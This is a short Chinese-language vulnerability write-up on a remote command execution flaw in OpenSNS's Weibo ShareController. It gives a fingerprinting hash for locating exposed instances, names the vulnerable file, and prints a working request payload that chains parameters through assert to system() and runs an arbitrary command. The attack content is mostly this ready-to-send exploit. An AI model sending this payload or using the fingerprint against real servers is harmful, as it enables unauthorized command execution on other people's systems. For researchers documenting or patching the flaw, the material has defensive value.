# OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210629150345721.png)

存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`

![img](../../../.vuepress/public/img/1634372349493-09076c1f-7406-46af-b4b4-9cabb771a8ec.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```



![img](../../../.vuepress/public/img/image-20210629150412729.png)

